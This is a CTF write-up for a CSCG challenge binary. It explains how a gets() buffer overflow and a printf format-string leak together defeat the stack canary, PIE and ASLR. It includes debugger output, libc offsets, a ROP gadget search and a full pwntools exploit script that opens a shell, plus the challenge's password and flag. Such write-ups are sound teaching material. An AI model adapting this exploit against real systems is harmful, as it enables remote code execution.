 # Intro to Pwning 3

When run, the binary first asks us for the password of stage 2.
It then asks for our witch name, which it then prints back to us and then asks us for a magic spell:
```
$ ./pwn3
Enter the password of stage 2:
CSCG{...}
Enter your witch name:
Hermione
┌───────────────────────┐
│ You are a Gryffindor! │
└───────────────────────┘
Hermione enter your magic spell:
Expelliarmus
~ Protego!
```

Looking at the code we can quickly find two vulnerabilities:
1. All user input is read using the `gets` function, which doesn't have a length limit for the input and can therefore be used for buffer overflows.
2. The binary uses `printf` directly to print the entered name, which among other things allows us to leak data from the stack.

Looking at the `checksec` output we can see that the binary has everything enabled:
```
$ checksec pwn3
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can use `gets` to overwrite a return address and build a ropchain to call `system("/bin/sh")`.
There should be a `pop rdi` gadget in the binary and the `"/bin/sh"` string can be found in `libc`.

We can use `printf` to first leak the canary and at the same time leak the base address of the binary and `libc`.

Using `gdb` and `pwndbg` we can find out that the canary is at position `33`, the return address is at `35` a `libc` address is at `39` on the stack when `printf` is called in `welcome`:
```
pwndbg> disass welcome
...
   0x0000000000000ce3 <+109>:   call   0x8a0 <printf@plt>
...
pwndbg> b *welcome+109
pwndbg> r
pwndbg> canary
AT_RANDOM = 0x7ffffffee4d8 # points to (not masked) global canary value
Canary    = 0xde09d8f9285a0c00
Found valid canaries on the stacks:
00:0000│   0x7ffffffee028 ◂— 0xde09d8f9285a0c00
pwndbg> stack 50
...
21:0108│          0x7ffffffee018 ◂— 0xde09d8f9285a0c00
22:0110│ rbp      0x7ffffffee020 —▸ 0x7ffffffee040 ◂— 0x0
23:0118│          0x7ffffffee028 —▸ 0x8000d7e (main+55) ◂— mov    eax, 0 /* 0xff30e800000000b8 */
24:0120│          0x7ffffffee030 —▸ 0x7ffffffee138 —▸ 0x7ffffffee4df ◂— 0x702f642f746e6d2f ('/mnt/d/p')
25:0128│          0x7ffffffee038 ◂— 0x100000000
26:0130│          0x7ffffffee040 ◂— 0x0
27:0138│          0x7ffffffee048 —▸ 0x7fffff610ceb (__libc_start_main+235) ◂— mov    edi, eax
...
pwndbg> pi 0x21
33
```

Because `printf`'s first six variadic arguments are taken from registers we can leak the canary and addresses using `%39$p %41$p %45$p` i.e. printing the 39th, 41st  and 45th arguments to `printf` as pointers which will be the 33rd, 35th, and 39th value on the stack:

```
Enter your witch name:
%39$p %41$p %45$p
┌───────────────────────┐
│ You are a Gryffindor! │
└───────────────────────┘
0x90016f426eb54100 0x7fee0ea00d7e 0x7fee0e7a3ceb enter your magic spell:
```

Using the [libc database](https://github.com/niklasb/libc-database) we can find out the address of `system` and a `/bin/sh` string in libc:
```
$ ldd pwn3
        linux-vdso.so.1 (0x00007ffebb5eb000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6b61dc2000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6b621bf000)
$ /tools/libc-database/identify /lib/x86_64-linux-gnu/libc.so.6
id libc6_2.30-0ubuntu2.1_amd64
$ /tools/libc-database/dump libc6_2.30-0ubuntu2.1_amd64
offset___libc_start_main_ret = 0x271e3
offset_system = 0x00000000000554e0
offset_dup2 = 0x0000000000111b60
offset_read = 0x0000000000111260
offset_write = 0x0000000000111300
offset_str_bin_sh = 0x1b6613
```

Using `ropper` or `ROPgadget` we can also find the address of the ever present `pop rdi; ret` gadget in the binary:
```
$ ropper -f pwn3 | grep rdi
...
0x0000000000000df3: pop rdi; ret;
```

And taking another look with `gdb` we can find out the offset between the buffer and the canary and return address for the second `gets`, which is `0x108` and `0x118` bytes:
```
pwndbg> disass AAAAAAAA
...
   0x0000000000000ced <+53>:    call   0x8c0 <gets@plt>
   0x0000000000000cf2 <+58>:    lea    rax,[rbp-0x110]
...
pwndbg> b *AAAAAAAA+58
pwndbg> r
Hermione enter your magic spell:
AAAAAAAA
pwndbg> stack 50
00:0000│ rax r8 r10 r11 rsp  0x7ffffffedf10 ◂— 'AAAAAAAA'
...
21:0108│                     0x7ffffffee018 ◂— 0xd5c4e946c7e0a00
22:0110│ rbp                 0x7ffffffee020 —▸ 0x7ffffffee040 ◂— 0x0
23:0118│                     0x7ffffffee028 —▸ 0x8000d88 (main+65) ◂— nop     /* 0x441f0fc3c990 */
```

We also have to start the input for the second `gets` with `"Expelliarmus\0"` because the program
compares the spell we give it and immediately exits if it's not `"Expelliarmus"`.
Luckily `strcmp` stops at null-bytes but `gets` reads until newlines so this is not a problem.

Trying the exploit will now give a `segfault` in `system` because of a misaligned stack
but we can just add an extra `ret` before `system` to the ropchain.
This will cause the stack to be one value further down, so it will be aligned correctly.

The final exploit now looks like this:
```python
#!/usr/bin/env python3

from pwn import *

PASSWORD = "CSCG{NOW_GET_VOLDEMORT}"
LIBC_START_MAIN_RET_OFFSET = 0x271e3
LIBC_SYSTEM_OFFSET = 0x554e0
LIBC_BIN_SH_OFFSET = 0x1b6613
WELCOME_RET_OFFSET = 0xd7e
POP_RDI = 0xdf3
RET = 0xdf4

p = remote("hax1.allesctf.net", 9102)

p.recvuntil("Enter the password of stage 2:\n")
p.sendline(PASSWORD)

p.recvuntil("Enter your witch name:")
p.sendline("#%39$llu|%41$llu|%45$llu#")

p.recvuntil("#")
canary, ret_addr, libc_addr = map(int, p.recvuntil("#")[:-1].split(b"|"))
libc_addr -= LIBC_START_MAIN_RET_OFFSET
binary_addr = ret_addr - WELCOME_RET_OFFSET

log.info(f"Leaked stack canary: {canary:#x}")
log.info(f"Leaked binary address: {binary_addr:#x}")
log.info(f"Leaked libc address: {libc_addr:#x}")

p.recvuntil(":")

payload = b"Expelliarmus\0".ljust(0x108)
payload += p64(canary)
payload += b"A" * 8
payload += p64(binary_addr + POP_RDI)
payload += p64(libc_addr + LIBC_BIN_SH_OFFSET)
payload += p64(binary_addr + RET)
payload += p64(libc_addr + LIBC_SYSTEM_OFFSET)

p.sendline(payload)
p.interactive()
```

And running it gives us a shell and the flag:
```
$ ./exploit.py
[+] Opening connection to hax1.allesctf.net on port 9102: Done
[*] Leaked stack canary: 0x72bdf49b0dd52c00
[*] Leaked binary address: 0x56531cbdc000
[*] Leaked libc address: 0x7fc1297e6000
[*] Switching to interactive mode

~ Protego!
$ cat flag
CSCG{VOLDEMORT_DID_NOTHING_WRONG}
```

Clearly, it's better to follow the `man`-pages advice and `Never use gets(). [...] Use fgets() instead.`
And of course, letting users control the first argument of `printf` is equally bad.
Instead, `printf("%s", user_input)` should be used. Otherwise, even stack canaries can't help.
